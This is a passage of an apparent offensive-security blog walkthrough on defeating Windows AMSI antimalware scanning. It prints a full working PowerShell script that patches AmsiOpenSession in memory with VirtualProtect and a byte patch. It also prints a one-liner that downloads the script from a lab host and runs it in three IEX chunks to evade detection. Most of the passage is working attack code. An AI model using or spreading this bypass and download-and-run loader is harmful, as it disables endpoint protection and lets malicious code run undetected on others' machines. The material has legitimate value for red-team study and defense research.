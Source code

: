 
#### AmsiOpenSession patch

Now, let's create a new AMSI bypass script. Instead of patching
AmsiScanBuffer, we want to scan AmsiOpenSession. Since we're a script
kiddie, we'll just take the [AmsiScanBuffer script](
https://github.com/webbie321/AmsiScanBufferBypass/blob/master/ASBBypass.ps1=
)
by Rasta Mouse and replace the function name.


On line 22, we simply replace "Amsi" + "Scan" + "Buffer" by
"AmsiOpenSession"

No need to split the string anymore (for now) since this is a less popular
function to patch.

Full new script:

```
$Win32 =3D @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary =3D [Win32]::LoadLibrary("am" + "si.dll")
$Address =3D [Win32]::GetProcAddress($LoadLibrary, "AmsiOpenSession")
$p =3D 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch =3D [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

We still have to cut the script in 3, but, surprise, it works!

![image16.png]({{site.baseurl}}/_posts/images/image16.png)


We place the script in full2.txt, do a bit of character counting, and we're
back to where we were previously. Still works.

```
$full =3D (New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/full2.txt"); IEX($full.substring(0,583));
IEX($full.substring(583,60)); IEX($full.substring(643,126))
```
